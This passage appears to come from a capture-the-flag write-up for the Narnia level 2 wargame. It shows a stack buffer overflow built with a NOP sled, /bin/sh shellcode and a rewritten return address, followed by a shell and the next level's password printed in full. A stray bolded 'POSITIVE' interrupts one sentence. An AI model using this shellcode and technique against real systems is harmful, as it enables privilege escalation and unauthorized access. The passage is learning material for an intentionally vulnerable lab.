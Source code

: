 Let's use `python` to check the difference.

``` text
narnia2@gibson:/tmp/tmp.mblQrRlBU6$ python3
<snip>
>>> hex(0xffffe480 - 0xffffe440)
'0x40'
>>> 
```

Okay. We have an offset of **POSITIVE** `0x40`, which means we add `0x40` to the return address we found in `GDB`.

``` text
narnia2@gibson:/tmp/tmp.mblQrRlBU6$ python3
<snip>
>>> hex(0xffffd754 + 0x40)
'0xffffd794'
>>> 
```

Let's craft the input argument using `perl`.

``` text
$( perl -e 'print "\x90"x74 . <snip> . "\x94\xd7\xff\xff";')
```

Let's run this in conjunction with `./narnia2` binary.

``` text
narnia2@gibson:/narnia$ ./narnia2 $( perl -e 'print "\x90"x74 . "\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" . "\x94\xd7\xff\xff";')
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
8SyQ2wyEDU
$
```

BOOM we got the flag. 

